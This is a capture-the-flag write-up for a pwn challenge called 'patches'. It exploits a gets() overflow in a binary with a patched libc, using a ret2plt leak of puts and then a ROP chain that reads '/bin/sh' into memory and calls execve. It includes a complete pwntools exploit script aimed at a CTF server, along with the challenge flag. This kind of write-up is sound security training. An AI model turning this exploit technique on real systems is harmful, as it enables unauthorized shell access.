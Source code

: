 # Patches

The binary comes with a libc and ld. As the title, description and even text of the binary suggests, the libc is patched. I patched the ELF file so that it would always run with this ld and libc, even on my local end.

```text
patchelf --set-rpath './' ./patches
patchelf --set-interpreter './ld-2.27.so' ./patches
```

The binary prints some stuff using puts, calls printf\("&gt; "\) and then calls gets on rbp-0x80.

This creates a buffer overflow. With NX on this time, it'll be a little more difficult. We can execute a classic ret2plt attack, retting into puts@plt\(no PIE\) to print out puts@got, creating a libc leak. Things are a little harder as the libc is patched. There's no /bin/sh in it, presumably the system doesn't work properly. We talked about this in the Statics and Dynamics writeup from HacktivityCon CTF - with so much code, libc is a ROP gadget gold mine. So once we've used ret2plt to leak the libc base, we can just use ROP to build a chain that uses syscalls to pop a shell.

Note that due to stack alignment we'll need to use a return gadget before returning back into main, and also I chose the instruction at 0x40123c\(which is part of main\) for convenience.

We can use the pwntools ROP functionality to build a nice and simple ROP chain that reads data into a writeable section, then uses execve\(execve\(section,NULL,NULL\) specifically\). Afterwards, we'll send /bin/sh which will get written to said writeable section, thus the total payload will pop a shell.

## Flag: flag{no\_one\_gadget\_this\_time\_wait\_no\_binsh\_at\_all?}

```python
from pwn import *
NUM_TO_RBP = 0x80
fakestack = 0x404500
padding = b'A'*NUM_TO_RBP + p64(fakestack)
context.arch = 'amd64'
e = ELF("./patches")
libc = e.libc
p = e.process() if args.LOCAL else remote('challenge.ctf.games', 30585)
p.recvuntil('> ')
rop = ROP(e)
#ret2plt libc leak
poprdi = rop.find_gadget(['pop rdi','ret']).address
retgadget = rop.find_gadget(['ret']).address
chain = flat(poprdi, e.got['puts'],e.plt['puts'],retgadget,0x000000000040123c)
pause()
p.sendline(padding + chain)
leak = p.recvline()[:-1].ljust(8,b'\x00')
puts = u64(leak)
log.info(f"Libc leak: {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
# Build rop chain to read into RW section, then execve
rop2 = ROP(libc)
rop2.read(0,0x404300,8)
rop2.execve(0x404300,0,0)
payload = padding + rop2.chain()
p.sendline(payload)
p.send(b'/bin/sh\x00')
p.interactive()
```

